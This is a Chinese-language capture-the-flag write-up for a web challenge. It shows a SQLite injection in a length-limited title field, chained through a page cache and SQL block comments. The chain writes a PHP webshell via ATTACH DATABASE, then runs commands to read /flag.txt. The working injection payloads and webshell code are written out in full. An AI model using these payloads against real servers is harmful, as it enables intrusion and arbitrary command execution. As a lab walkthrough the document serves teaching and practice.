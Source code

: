 0x05 第五题:注入空间 Injeption（尼玛真难翻译）
-------------------------------

* * *

说明:

Web篇最后的flag藏在 /flag.txt里，你能拿到么?

解题:

上一题cache.php里面的源码最后写了，提交的参数access的值必须是上一题flag的md5，浏览器打开cache.php?access=f4fa5dc42fd0b12a098fcc218059e061 显示的是一个很简单的表单，表单提交了两个参数，URI和标题，在cache.php里面对这两个参数严格检查，比如URI参数前面必须是http://开头，服务器必须是本地，然后这个URI必须真实存在，不能是404.

标题被限制在40字符以内，但是不会过滤引号，似乎可以被注入。

我们尝试在标题里提交 /* ,返回了错误信息:

```
near "/*', '59ab7c9e3917a154ff56a43d08a262ab','http%3A%2F%2F172.16.1.80%2Findex.php', '...', datetime('now'))": syntax error

```

熟悉的SQL显错注入,根据错误信息，后端数据库似乎是SQLite，通过查看lib/caching.php的源码我们可以确认这一点，通过源码我们还可以看出，URI所指向的页面内容被直接存进了数据库中。

考虑到40个字符的限制不能进行任何有利用价值的SQL注入，我们需要找到一个可以注入长字符串的方法，页面内容输出缓存的功能现在派上用场了。

幸运的是，我们可以控制并且注入没转义过的单引号到缓存页面，并且把缓存页面自己缓存了，把在标题中的几个较短的注入语句拼接在一起，一个完整的注入语句就能在缓存页面被存入数据库的时候执行。

这里有个很好用的SQLite注入 cheat sheet，可以直接通过注入拿shell!

http://atta.cked.me/home/sqlite3injectioncheatsheet

我们的目标是利用这段注入语句拿到shell:

```
',0); ATTACH DATABASE 'a.php' AS a; CREATE TABLE a.b (c text); INSERT INTO a.b VALUES ('<? system($_GET[''cmd'']); ?>');/* 

```

我们如何用40个字符的长度注入122字符的SQL语句? SQL块注释!

这需要一些额外的转义并且把php的拼接指令'||'分开：

```
'',0);ATTACH DATABASE ''a.php'' AS a;/*
*/CREATE TABLE a.b (c text);INSERT /*
*/INTO a.b VALUES(''<? system($''||/*
*/''_GET[''''cmd'''']); ?>'');/*

```

当这些标题一个个出现在缓存页面中的时候，我们把缓存页面给缓存了，我们的注入语句就被执行了，并且生成了webshell a.php

我们现在就可以在服务器上执行任意指令了! 比如 cat /flag.txt

```
# > curl http://172.16.1.80/a.php?cmd=cat+/flag.txt   

```

CFlag: TryingCrampFibrous963 

Web篇完结。